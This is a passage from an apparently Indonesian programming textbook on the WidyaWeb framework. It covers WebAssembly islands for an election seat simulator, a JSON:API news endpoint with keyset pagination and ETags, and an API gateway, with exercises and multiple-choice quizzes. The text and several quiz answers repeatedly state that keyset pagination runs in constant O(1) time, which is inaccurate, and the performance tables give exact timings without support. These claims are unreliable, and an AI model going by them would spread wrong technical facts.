   - D. Membuka dialog cetak kertas

9. Tag Open Graph meta `og:image` digunakan oleh peramban dan platform sosial media untuk:
   - A. Menampilkan gambar pratinjau kartu (*rich social card preview*) saat tautan artikel dibagikan di WhatsApp, Twitter, atau Facebook
   - B. Mengedit resolusi kamera jurnalis
   - C. Menghapus logo penerbit
   - D. Menyimpan gambar di kartu memori SD peramban

10. Berapa skor ideal audit Aksesibilitas (A11y) dan SEO pada Google Lighthouse yang menjadi target proyek NusantaraNews?
    - A. 50 / 100
    - B. 75 / 100
    - C. 100 / 100
    - D. Nilai tidak dinilai oleh Lighthouse

---

# BAB 16: ISLAND INTERAKTIF BERBASIS WEBASSEMBLY (WASM) & ZERO-JS DEFAULT

Bab ini mengeksplorasi paradigma mutakhir *Zero-JS by Default* yang dipadukan dengan modul interaktif terisolasi (*Islands Architecture*) berbasis WebAssembly (WASM) yang dikompilasi langsung dari bahasa Widya-Lang, memungkinkan fitur interaktif berkecepatan tinggi seperti kalkulator simulasi pemilu dan visualisasi data interaktif tanpa membebani thread utama JavaScript.

---

## 16.1 Filosofi Zero-JS Default & Modul WASM Terisolasi

Mayoritas halaman artikel berita hanya berisi teks, gambar, dan kutipan yang seharusnya disajikan sebagai HTML murni tanpa perlu memuat ratusan kilobyte pustaka JavaScript. Namun, ketika ada kebutuhan fitur interaktif khusus (misal: simulasi perolehan kursi legislatif pemilu atau grafik interaktif pasar saham), WidyaWeb mengaktifkan **WASM Island**: modul biner WebAssembly kompak yang hanya diunduh dan dieksekusi ketika komponen tersebut masuk ke dalam area pandang pembaca (*viewport*).



---

## 16.2 Implementasi Simulasi Pemilu Berbasis Widya-Lang WASM

Berikut adalah kode sumber modul simulasi pemilu yang dikompilasi ke WebAssembly menggunakan rantai kompilator Widya-Lang:

```widya
// Modul WASM: simulasi_pemilu.widya
gunakan widya::wasm::{ekspor_fungsi, memori_buffer, CanvasContext};

rekod PartaiSuara {
    nama: Teks,
    total_suara: Bulat,
    kursi_diperoleh: Bulat
}

// Fungsi yang diekspor dan dapat dipanggil langsung dari peramban
#[ekspor_fungsi]
fungsi hitung_metode_sainte_lague(suara_mentah: Senarai<Bulat>, total_kursi: Bulat) -> Senarai<Bulat> {
    tetapan jumlah_partai = suara_mentah.panjang();
    tetapan kursi = Senarai<Bulat>::isi_awal(jumlah_partai, 0);

    // Iterasi pembagian divisor ganjil Sainte-Laguë (1, 3, 5, 7, ...)
    untuk _ putaran di 0..total_kursi {
        tetapan indeks_pemenang = 0;
        tetapan nilai_tertinggi = 0.0;

        untuk i di 0..jumlah_partai {
            tetapan divisor = (2.0 * kursi[i].ke_desimal()) + 1.0;
            tetapan kuosien = suara_mentah[i].ke_desimal() / divisor;

            jika kuosien > nilai_tertinggi {
                nilai_tertinggi = kuosien;
                indeks_pemenang = i;
            }
        }

        kursi[indeks_pemenang] = kursi[indeks_pemenang] + 1;
    }

    kembalikan kursi;
}

#[ekspor_fungsi]
fungsi gambar_diagram_kursi(ctx_id: Teks, alokasi_kursi: Senarai<Bulat>) {
    tetapan ctx = CanvasContext::ambil(ctx_id);
    ctx.bersihkan_layar();
    
    // Perhitungan busur derajat diagram setengah lingkaran parlemen
    tetapan jari_jari = 140.0;
    tetapan pusat_x = 200.0;
    tetapan pusat_y = 180.0;
    
    ctx.gambar_busur_parlemen(pusat_x, pusat_y, jari_jari, alokasi_kursi);
}
```

Pemuatan modul WASM diatur oleh direktif deklaratif WidyaWeb pada templat HTML:

```html
<!-- Island Directive: lazy-loaded via Intersection Observer -->
<div class="island-container" 
     w-island="simulasi_pemilu.wasm" 
     w-trigger="visible"
     w-fallback="<p>Memuat simulasi interaktif parlemen...</p>">
  <canvas id="canvas-parlemen" width="400" height="220"></canvas>
  <div class="kontrol-slider-wrapper">
    <label>Simulasi Pergeseran Suara: <input type="range" id="slider-suara" min="10" max="90"></label>
  </div>
</div>
```

---

## 16.3 Analisis Efisiensi Runtime & Ukuran Bundle

Kombinasi *Zero-JS Default* dengan modul WASM terisolasi memberikan kecepatan ekstrem.

| Pendekatan Arsitektur | Total JS Dimuat | Skor TBT (Total Blocking Time) | Kecepatan Kalkulasi Sainte-Laguë |
| :--- | :--- | :--- | :--- |
| **Arsitektur SPA Tradisional** | 450 KB – 900 KB JS | 380 ms (Thread Terkunci) | 8.2 ms (Interpreted JS) |
| **Islands Architecture + WASM WidyaWeb** | 0 KB (Default) + 18 KB WASM | 0 ms (Zero Main-Thread Lock) | 0.3 ms (Near-Native Biner) |

---

## 16.4 Latihan Praktik & Studi Kasus

1. **Kompilasi Modul Peta Interaktif Sebaran Berita**: Buat modul WASM yang merender peta topografi 34 provinsi Indonesia menggunakan proyeksi GeoJSON dengan interaksi sentuh *hover* berkecepatan 60 FPS.
2. **Kalkulator Inflasi Interaktif Pembaca**: Rancang modul simulasi dampak inflasi terhadap daya beli kebutuhan pokok menggunakan data indeks harga konsumen historis.
3. **Mekanisme Fallback Tanpa JavaScript/WASM**: Pastikan jika pembaca menonaktifkan JavaScript/WASM, wadah island tetap menyajikan tabel statis alokasi kursi parlemen hasil perhitungan perenderan sisi server (SSR).

---

## 16.5 Evaluasi Mandiri Pilihan Ganda

1. Apa prinsip dasar arsitektur *Zero-JS by Default* pada WidyaWeb?
   - A. Dilarang menggunakan komputer untuk membaca berita
   - B. Seluruh halaman disajikan sebagai HTML dan CSS murni tanpa runtime JavaScript, kecuali pada elemen spesifik yang dideklarasikan sebagai island
   - C. Menghapus seluruh gambar dari artikel berita
   - D. Menjalankan sistem operasi Linux di dalam browser pengguna

2. Kapan modul biner WebAssembly (WASM) diunduh oleh peramban dengan konfigurasi `w-trigger="visible"`?
   - A. Segera saat browser pertama kali dibuka di pagi hari
   - B. Hanya ketika elemen kontainer island masuk ke dalam area pandang (*viewport*) pembaca
   - C. Saat baterai perangkat telah terisi 100%
   - D. Tidak pernah diunduh sama sekali

3. Berapa kisaran ukuran biner modul WASM simulasi Sainte-Laguë yang dikompilasi dari Widya-Lang?
   - A. Sekitar 18 KB
   - B. Lebih dari 1 Gigabyte
   - C. 50 Megabyte
   - D. 200 Kilobyte

4. Mengapa kalkulasi komputasi intensif (seperti simulasi pembagian ribuan kursi atau pemrosesan grafik) lebih unggul di WebAssembly dibandingkan JavaScript?
   - A. Karena WASM berjalan dalam representasi biner dekat-mesin (*near-native*) dengan struktur tipe data statis
   - B. Karena WASM hanya bisa berjalan di malam hari
   - C. Karena WASM tidak membutuhkan aliran listrik prosesor
   - D. Karena kode sumber JavaScript selalu dienkripsi

5. Algoritma apa yang diimplementasikan pada fungsi `hitung_metode_sainte_lague` di atas?
   - A. Algoritma enkripsi RSA
   - B. Algoritma konversi suara pemilu ke alokasi kursi parlemen menggunakan pembagi bilangan ganjil
   - C. Algoritma pengurutan Bubble Sort
   - D. Algoritma kompresi file zip

6. API browser apa yang digunakan secara efisien di balik layar untuk mendeteksi visibilitas elemen tanpa membebani event scroll?
   - A. MutationObserver
   - B. IntersectionObserver
   - C. PerformanceObserver
   - D. ResizeObserver

7. Apa tujuan penyediaan atribut `w-fallback` pada deklarasi kontainer island?
   - A. Memberikan tampilan konten cadangan (seperti tabel statis SSR) sebelum modul interaktif selesai diunduh atau jika lingkungan klien tidak mendukung WebAssembly
   - B. Mengunci sistem file klien
   - C. Mereset koneksi internet
   - D. Mengubah browser menjadi mode penyamaran

8. Metode standar JavaScript modern apa yang digunakan untuk mengunduh dan mengompilasi biner WASM secara asinkron dalam satu aliran pipa?
   - A. `eval()`
   - B. `WebAssembly.instantiateStreaming()`
   - C. `JSON.parse()`
   - D. `document.write()`

9. Apa dampak langsung penerapan *Zero-JS Default* terhadap metrik *Total Blocking Time* (TBT) pada Google Lighthouse?
   - A. Nilai TBT melonjak drastis hingga 5 detik
   - B. Nilai TBT turun drastis hingga mendekati 0 milidetik karena tidak ada hidrasi monolitik yang mengunci alur utama
   - C. Pengujian Lighthouse akan langsung dibatalkan
   - D. Baterai ponsel akan cepat habis

10. Mengapa bahasa Widya-Lang sangat ideal untuk dikompilasi ke WebAssembly?
    - A. Memiliki sistem tipe data statis yang ketat, manajemen memori deterministik tanpa siklus jeda garbage collection yang berat, dan sintaks yang ringkas
    - B. Karena bahasa Widya-Lang diciptakan oleh konsorsium peramban
    - C. Karena hanya bisa dijalankan pada sistem komputer kuantum
    - D. Menghilangkan kebutuhan penulisan berkas biner

---

# BAB 17: DESAIN RESTFUL API ENTERPRISE & STANDAR JSON:API

Bab ini membedah arsitektur backend RESTful API skala enterprise untuk portal berita NusantaraNews: kepatuhan terhadap spesifikasi JSON:API v1.1, desain resource URI hierarkis, pemfilteran dinamis (*filtering*), pengurutan multi-kriteria (*sorting*), paginasi berbasis kursor (*keyset pagination*), serta kontrol konkurensi optimistik menggunakan HTTP ETag.

---

## 17.1 Spesifikasi JSON:API & Arsitektur Resurse Editorial

Dalam arsitektur microservices atau headless backend portal berita berskala jutaan pengguna, endpoint ad-hoc yang tidak terstandarisasi menimbulkan inefisiensi transmisi data dan kerentanan dokumentasi. WidyaWeb mengimplementasikan spesifikasi formal **JSON:API** yang memisahkan dokumen menjadi bagian `data`, `attributes`, `relationships`, dan `included` guna mengatasi masalah over-fetching dan under-fetching data relasional.



Paginasi berbasis kursor (*keyset pagination*) memanfaatkan indeks `(dibuat_pada, id)` dari basis data WidyaBase untuk memastikan performa konstan $O(1)$ tanpa degradasi seperti pada klausa `OFFSET` SQL klasik.

---

## 17.2 Implementasi Endpoint RESTful Berita di WidyaWeb

Berikut adalah implementasi handler REST API untuk mengambil feed artikel berita dengan dukungan compound document (injeksi relasi penulis dan kategori dalam satu respons) dan penanganan ETag:

```widya
// Modul API RESTful NusantaraNews
gunakan widya::web::http::{Permintaan, Respon, StatusHTTP, tajuk_etag};
gunakan widya::web::json_api::{DokumenRespons, Resurse, TautanPaginasi};
gunakan widya::base::koneksi::{buka_koneksi};

rekod FilterKueri {
    kategori: Opsi<Teks>,
    status: Teks,
    kursor_setelah: Opsi<Teks>,
    batas: Bulat,
    sertakan_relasi: Senarai<Teks>
}

fungsi TanganiDaftarArtikel(req: Permintaan) -> Respon {
    tetapan db = buka_koneksi()?;
    
    // 1. Ekstraksi Query Parameters
    tetapan filter = FilterKueri {
        kategori: req.kueri("filter[kategori]"),
        status: req.kueri("filter[status]").nilai_atau("published"),
        kursor_setelah: req.kueri("page[after]"),
        batas: req.kueri("page[size]").ke_bulat_atau(20).batasi(1, 100),
        sertakan_relasi: req.kueri("include").pisah_koma_atau_kosong()
    };

    // 2. Kueri Keyset Pagination Berperforma Tinggi
    tetapan (data_artikel, kursor_lanjutan, total_rekod) = db.kueri_keyset_artikel(
        filter.kategori,
        filter.status,
        filter.kursor_setelah,
        filter.batas
    )?;

    // 3. Bangun Dokumen JSON:API
    tetapan mutabel dok = DokumenRespons::baru();
    tetapan mutabel pengenal_entitas = "";

    untuk artikel di data_artikel {
        tetapan mutabel res = Resurse::baru("artikel", artikel.id);
        res.tambah_atribut("judul", artikel.judul);
        res.tambah_atribut("slug", artikel.slug);
        res.tambah_atribut("ringkasan", artikel.ringkasan);
        res.tambah_atribut("diterbitkan_pada", artikel.diterbitkan_pada.ke_iso8601());
        
        // Relasi
        res.tautkan_relasi("kategori", "kategori", artikel.kategori_id);
        res.tautkan_relasi("penulis", "pengguna", artikel.penulis_id);
        
        dok.tambah_data(res);
        pengenal_entitas = pengenal_entitas + artikel.id + ":" + artikel.diperbarui_pada.ke_teks() + ";";
    }

    // 4. Perhitungan ETag untuk Caching Klien
    tetapan etag_nilai = "\"" + hitung_sha256(pengenal_entitas) + "\"";
    jika req.tajuk("If-None-Match") == Opsi::Ada(etag_nilai) {
        kembalikan Respon::status(StatusHTTP::NotModified) // 304 Not Modified
            .atur_tajuk("ETag", etag_nilai)
            .atur_tajuk("Cache-Control", "public, max-age=60, stale-while-revalidate=300")
            .bangun();
    }

    // 5. Sertakan Objek Sampingan (Compound Document) jika diminta
    jika filter.sertakan_relasi.memuat("penulis") {
        dok.sertakan_resurse_terkait(db.ambil_banyak_pengguna_relasi(data_artikel)?);
    }

    dok.atur_meta("total_rekod", total_rekod);
    jika kursor_lanjutan.ada() {
        dok.atur_tautan("next", "/api/v1/articles?page[after]=" + kursor_lanjutan.ambil() + "&page[size]=" + filter.batas.ke_teks());
    }

    kembalikan Respon::sukses_json(dok.ke_string())
        .atur_tajuk("Content-Type", "application/vnd.api+json")
        .atur_tajuk("ETag", etag_nilai)
        .atur_tajuk("Cache-Control", "public, max-age=60, stale-while-revalidate=300")
        .bangun();
}
```

---

## 17.3 Analisis Efisiensi Paginasi: Keyset vs Offset Klasik

Dalam portal berita dengan jutaan rekod arsip, paginasi tradisional menggunakan `OFFSET` mengalami lonjakan beban I/O disk yang fatal.

| Jumlah Arsip Artikel Berita | Waktu Eksekusi SQL `OFFSET 500000` | Waktu Eksekusi WidyaWeb Keyset `WHERE id > :kursor` |
| :--- | :--- | :--- |
| **10.000 Artikel** | 4.8 ms | 0.2 ms |
| **100.000 Artikel** | 62.4 ms | 0.2 ms |
| **1.000.000 Artikel** | 780.5 ms (Degradasi Tinggi) | 0.3 ms (Konstan $O(1)$) |
| **10.000.000 Artikel** | Waktu Habis (*Query Timeout*) | 0.3 ms (Konstan $O(1)$) |

---

## 17.4 Latihan Praktik & Studi Kasus

1. **Implementasi Endpoint Pembuatan Draf Artikel Berita (POST /api/v1/articles)**: Rancang handler untuk menerima muatan dokumen JSON:API baru dengan validasi skema ketat dan mengembalikan status `201 Created` beserta tajuk `Location`.
2. **Kueri Pemfilteran Majemuk Berdasarkan Rentang Tanggal**: Tambahkan dukungan parameter kueri `filter[published_at][gte]` dan `filter[published_at][lte]` untuk menyaring berita arsip berdasarkan rentang waktu.
3. **Penyempurnaan Penanganan Kesalahan Standar JSON:API**: Susun objek `errors` komprehensif yang memuat `status`, `title`, `detail`, dan `source.pointer` saat validasi atribut gagal.

---

## 17.5 Evaluasi Mandiri Pilihan Ganda

1. Tipe MIME resmi apa yang ditentukan oleh standar spesifikasi JSON:API?
   - A. `text/plain`
   - B. `application/vnd.api+json`
   - C. `application/xml`
   - D. `multipart/form-data`

2. Mengapa paginasi berbasis kursor (*keyset pagination*) jauh lebih unggul dibandingkan paginasi berbasis `OFFSET` pada tabel berjuta rekod?
   - A. Karena kursor langsung melompat ke posisi indeks pohon B-Tree $O(1)$ tanpa perlu memindai dan membuang ratusan ribu rekod sebelumnya
   - B. Karena kursor menghapus basis data lama secara otomatis
   - C. Karena kursor hanya bisa dijalankan di komputer mainframe
   - D. Karena kursor tidak menggunakan memori server sama sekali

3. Apa fungsi tajuk HTTP `ETag` (Entity Tag) pada endpoint berita?
   - A. Menyimpan kata sandi jurnalis
   - B. Memberikan pengenal unik versi konten yang memungkinkan klien menerima respons `304 Not Modified` jika data belum berubah
   - C. Memblokir seluruh permintaan dari perangkat seluler
   - D. Menghapus rekod artikel di server secara acak

4. Dalam struktur JSON:API, di manakah properti data inti (seperti judul, konten, tanggal) ditempatkan?
   - A. Di dalam kunci `attributes` pada objek resurse
   - B. Di dalam file konfigurasi server
   - C. Di dalam variabel sistem operasi
   - D. Di dalam baris perintah terminal

5. Status kode HTTP apa yang dikembalikan oleh server jika klien mengirimkan tajuk `If-None-Match` yang cocok dengan nilai ETag server aktif?
   - A. 200 OK
   - B. 304 Not Modified
   - C. 404 Not Found
   - D. 500 Internal Server Error

6. Apa yang dimaksud dengan fitur *Compound Document* dalam JSON:API?
   - A. Menggabungkan 10 database menjadi satu file biner
   - B. Menyertakan entitas terkait (misalnya profil penulis dan kategori) di bagian `included` dalam satu respons HTTP untuk menghindari masalah N+1 kueri di klien
   - C. Mengubah dokumen menjadi format PDF terenkripsi
   - D. Membagi satu artikel menjadi 50 tautan terpisah

7. Apa tujuan klausa tajuk `Cache-Control: stale-while-revalidate=300`?
   - A. Menolak seluruh koneksi pengguna baru selama 300 detik
   - B. Mengizinkan klien atau CDN menggunakan cache basi sambil melakukan validasi pembaruan data di latar belakang
   - C. Memaksa browser menghapus seluruh riwayat unduhan
   - D. Membatasi ukuran artikel maksimal 300 kata

8. Atribut `relationships` dalam objek resurse JSON:API berfungsi untuk:
   - A. Mendefinisikan hubungan ke resurse lain melalui referensi `type` dan `id`
   - B. Menghitung jumlah pertemanan di media sosial jurnalis
   - C. Menghubungkan printer ke server web
   - D. Menyimpan riwayat perubahan kata sandi admin

9. Mengapa parameter `page[size]` harus selalu dibatasi dengan nilai maksimum (misal: `batas.batasi(1, 100)`)?
   - A. Mencegah klien jahat meminta jutaan baris data sekaligus yang dapat menghabiskan memori RAM dan bandwidth server (*Denial of Service*)
   - B. Karena kompilator Widya-Lang tidak bisa menghitung angka di atas 100
   - C. Mematuhi batasan lisensi open source
   - D. Menghindari pemotongan huruf pada layar monitor

10. Jika klien mengirimkan permintaan `PATCH /api/v1/articles/942` dengan perubahan hanya pada judul artikel, atribut apa saja yang wajib disertakan dalam muatan data?
    - A. Seluruh baris tabel database wajib dikirim ulang
    - B. Cukup menyertakan `type`, `id`, dan objek `attributes` yang memuat properti `judul` baru
    - C. Hanya nama penulis yang boleh dikirimkan
    - D. Wajib menyertakan file foto identitas redaktur

---

# BAB 18: API GATEWAY NUSANTARA: REVERSE PROXY, LOAD BALANCING & TLS TERMINATION

Bab ini mengulas pembangunan gerbang API terpadu (*Unified API Gateway*) NusantaraNews: peran sebagai proksi pembalik (*reverse proxy*), penghentian enkripsi TLS/HTTPS modern (*TLS termination* dengan sertifikat otomatis ACME/Let's Encrypt), algoritma penyeimbangan beban (*load balancing*), serta perutean dinamis ke klaster layanan backend dan layanan frontend.

---

## 18.1 Arsitektur Gateway Terdistribusi & Topologi Jaringan

Dalam arsitektur berkinerja tinggi, klien peramban dan aplikasi seluler tidak terhubung langsung ke mikro-layanan internal (seperti Layanan Konten, Layanan Komentar, Layanan Autentikasi, Layanan Pencarian Vektor). Semua lalu lintas masuk (*ingress traffic*) melalui **API Gateway Nusantara** yang bertindak sebagai pos pemeriksaan sentral untuk keamanan, kompresi, perutean jalur (*path routing*), dan metrik.



---

## 18.2 Implementasi API Gateway Reverse Proxy di WidyaWeb

Berikut adalah konfigurasi dan kode peladen gateway cerdas yang mengimplementasikan penyeimbangan beban *Power of Two Choices* (P2C) dan proksi pembalik non-blocking:

```widya
// Modul Nusantara API Gateway
gunakan widya::web::gateway::{GerbangAPI, RuteProksi, AlgoritmaBalancing, TargetUpstream};
gunakan widya::web::tls::{KonfigurasiTLS, SertifikatOtomatisACME};

rekod UpstreamNode {
    url: Teks,
    koneksi_aktif: Bulat,
    apakah_sehat: BenarSalah
}

fungsi JalankanGatewayNusantara() {
    // 1. Inisialisasi Sertifikat TLS ACME Otomatis
    tetapan tls_cfg = KonfigurasiTLS::baru()
        .domain("nusantaranews.id")
        .email_admin("keamanan@nusantaranews.id")
        .gunakan_acme_letsencrypt()
        .protokol_minimum_tls13()
        .aktifkan_http3_alpn();

    // 2. Definisi Pool Klaster Backend
    tetapan pool_frontend = [
        TargetUpstream::baru("http://10.0.1.10:3000", 1),
        TargetUpstream::baru("http://10.0.1.11:3000", 1)
    ];

    tetapan pool_api = [
        TargetUpstream::baru("http://10.0.2.10:4000", 1),
        TargetUpstream::baru("http://10.0.2.11:4000", 1),
        TargetUpstream::baru("http://10.0.2.12:4000", 2) // Bobot lebih besar
    ];

    // 3. Konfigurasi Gerbang API
    tetapan mutabel gateway = GerbangAPI::baru(80, 443)
        .terapkan_tls(tls_cfg)
        .atur_timeout_koneksi_ms(5000)
        .atur_buffer_badan_maksimal_mb(10);

    // 4. Perutean Jalur Proksi Pembalik
    gateway.rute("/api/v1/search/*", RuteProksi::ke("http://10.0.3.10:5000")
        .hapus_awalan("/api/v1/search"));

    gateway.rute("/api/v1/*", RuteProksi::ke_pool(pool_api)
        .algoritma(AlgoritmaBalancing::PowerOfTwoChoices)
        .pemeriksaan_kesehatan("/healthz", 3)); // Periksa setiap 3 detik

    gateway.rute("/ws/*", RuteProksi::ke("http://10.0.4.10:6000")
        .dukung_peningkatan_websocket());

    // Rute Bawaan: Arahkan ke Klaster SSR Frontend
    gateway.rute_bawaan(RuteProksi::ke_pool(pool_frontend)
        .algoritma(AlgoritmaBalancing::RoundRobin)
        .sisipkan_tajuk("X-Forwarded-For", "$remote_addr")
        .sisipkan_tajuk("X-Gateway-Nusantara", "WidyaWeb-Edge/2.0"));

    cetak_log("Nusantara API Gateway aktif pada port 80 (HTTP) dan 443 (HTTPS/QUIC)");
    gateway.dengarkan();
}
```

---

## 18.3 Analisis Algoritma Penyeimbangan Beban (Load Balancing)

Pemilihan algoritma penyeimbangan beban menentukan kestabilan latensi klaster saat terjadi lonjakan trafik berita mendadak (*traffic spike*).

| Algoritma Balancing | Distribusi Beban | Penanganan Node Lambat | Kompleksitas Waktu |
| :--- | :--- | :--- | :--- |
| **Round Robin Sederhana** | Merata secara sekuensial | Buruk (Dapat membanjiri node yang tersendat) | $O(1)$ |
| **Weighted Round Robin** | Berdasarkan rasio bobot statis | Sedang (Tidak tanggap lonjakan beban dinamis) | $O(1)$ |
| **Least Connections** | Memilih node koneksi terminimal | Baik (Memerlukan sinkronisasi atomik global) | $O(N)$ pemindaian |
| **Power of Two Choices (P2C)** | Memilih 2 node acak, pilih yang terminimal | Luar Biasa (Mencegah kawanan thundering herd) | $O(1)$ Konstan |

---

## 18.4 Latihan Praktik & Studi Kasus

1. **Implementasi Pemeriksaan Kesehatan Pasif (Passive Health Checking)**: Tambahkan logika pada gateway yang secara otomatis menandai sebuah upstream node sebagai "tidak sehat" jika mengalami 3 kali kegagalan koneksi berturut-turut atau kode respons 502 Bad Gateway.
2. **Kustomisasi Pembersihan Tajuk Berbahaya**: Konfigurasikan pemfilteran tajuk masuk pada gateway untuk menghapus tajuk internal berbahaya seperti `X-Internal-User-Role` sebelum permintaan diteruskan ke klaster API.
3. **Pengalihan Otomatis HTTP ke HTTPS**: Rancang handler pada port 80 yang mengembalikan kode status permanen `301 Moved Permanently` ke alamat ekuivalen `https://` dengan tajuk `Strict-Transport-Security` (HSTS).

---

## 18.5 Evaluasi Mandiri Pilihan Ganda

1. Apa tanggung jawab utama dari *Reverse Proxy* dalam arsitektur aplikasi web modern?
   - A. Menjadi jembatan perantara yang menerima permintaan dari klien luar dan meneruskannya ke layanan backend yang sesuai di jaringan internal
   - B. Mematikan seluruh komputer di jaringan kantor
   - C. Mengunduh musik tanpa izin hak cipta
   - D. Menghapus kode program dari repositori Git

2. Apa yang dimaksud dengan *TLS Termination* pada API Gateway?
   - A. Menghentikan seluruh koneksi aman agar pengguna tidak bisa masuk
   - B. Proses di mana gateway mendekripsi lalu lintas HTTPS terenkripsi dari internet publik dan meneruskan lalu lintas plain di dalam jaringan privat berkecepatan tinggi
   - C. Menghapus sertifikat SSL dari server
   - D. Mengubah sertifikat keamanan menjadi berkas gambar JPEG

3. Protokol otomatisasi apa yang digunakan oleh Let's Encrypt untuk penerbitan dan pembaruan sertifikat SSL/TLS gratis secara terprogram?
   - A. Protokol ACME (Automated Certificate Management Environment)
   - B. Protokol FTP
   - C. Protokol POP3
   - D. Protokol SNMP

4. Mengapa algoritma *Power of Two Choices* (P2C) sering dianggap lebih unggul daripada *Least Connections* klasik pada sistem berskala masif?
   - A. Menghindari pemindaian seluruh node ($O(N)$) dan menghindari masalah *thundering herd* dengan memilih 2 kandidat acak dan mengambil yang berbeban terkecil secara efisien $O(1)$
   - B. Membatasi jumlah node backend maksimal 2 komputer saja
   - C. Mengurangi biaya listrik server hingga 80%
   - D. Mengharuskan pengembang menulis kode dalam dua bahasa pemrograman

5. Tajuk HTTP standar apa yang wajib disematkan oleh Reverse Proxy untuk menginformasikan alamat IP asli klien kepada layanan backend?
   - A. `X-Powered-By`
   - B. `X-Forwarded-For`
   - C. `Content-Type`
   - D. `User-Agent`

6. Kode status HTTP apa yang harus dikembalikan oleh API Gateway jika server upstream backend di belakangnya mati atau tidak merespons?
   - A. 200 OK
   - B. 404 Not Found
   - C. 502 Bad Gateway
   - D. 301 Moved Permanently

7. Fitur ALPN (Application-Layer Protocol Negotiation) dalam jabat tangan TLS berguna untuk apa?
